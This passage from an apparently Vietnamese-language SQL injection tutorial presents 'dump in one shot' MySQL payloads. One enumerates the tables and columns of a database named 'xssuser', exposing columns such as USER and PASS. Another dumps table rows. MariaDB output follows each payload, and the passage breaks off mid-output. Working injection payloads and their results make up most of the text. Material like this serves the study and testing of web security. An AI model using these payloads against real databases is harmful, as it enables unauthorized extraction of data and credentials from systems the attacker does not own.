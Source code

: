 - Tuy nhiên nếu dùng cách này thì có khá nhiều dư thừa không cần thiết, ta sẽ lọc bớt bằng cách thêm câu sau `table_schema in ('xssuser')` với điều kiện phải biết trước tên *database*

  - Payload:

    ```mysql
    (select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and table_schema in ('xssuser') and(@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)
    ```

    ```mysql
    MariaDB [xssuser]> (select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and table_schema in ('xssuser') and(@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a);
    +------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | (@)                                                                                                                                                                                                              |
    +------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    |  
     [ xssuser ] > menu > ID|
     [ xssuser ] > menu > NAME_MENU|
     [ xssuser ] > user > ID|
     [ xssuser ] > user > USER|
     [ xssuser ] > user > PASS|
     [ xssuser ] > user > USERID|
     [ xssuser ] > user > LEVEL| |
    +------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    1 row in set (0.00 sec)
    
    ```

- Từ *payload* trên ta đã có thể lấy ra tên *table*, *database* và *column*, giờ ta dùng payload sau để *dump data* ra

  - Payload:

    ```mysql
    (select (@) from (select(@:=0x00),(select (@) from (xssuser.menu) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',ID,' ] > ',NAME_MENU,' > ',0x7C))))a)
    ```

    ```mysql
    MariaDB [xssuser]> (select (@) from (select(@:=0x00),(select (@) from (xssuser.menu) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',ID,' ] > ',NAME_MENU,' > ',0x7C))))a);
    +--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | (@)                                                                                                                                                                            |
    +--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    |  
    | [ 1 ] > Menu 2 > |
    | [ 2 ] > Menu 4 > |
    | [ 3 ] > Menu 5 > |
    | [ 4 ] > Menu 6 > |
    | [ 5 ] > Menu 7 > |